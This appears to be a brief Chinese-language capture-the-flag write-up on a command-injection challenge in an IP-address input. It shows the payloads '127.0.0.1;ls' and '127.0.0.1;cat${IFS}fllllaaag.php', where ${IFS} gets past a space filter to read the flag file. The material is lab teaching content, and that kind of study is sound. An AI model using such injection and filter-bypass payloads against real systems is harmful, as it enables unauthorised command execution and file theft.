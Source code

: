 试一下

```
127.0.0.1;ls
```

![image-20240124122858771](image/image-20240124122858771.png)

可以执行命令

![image-20240124122919293](image/image-20240124122919293.png)

提示就过滤了空格

构建命令

```
127.0.0.1;cat${IFS}fllllaaag.php
```

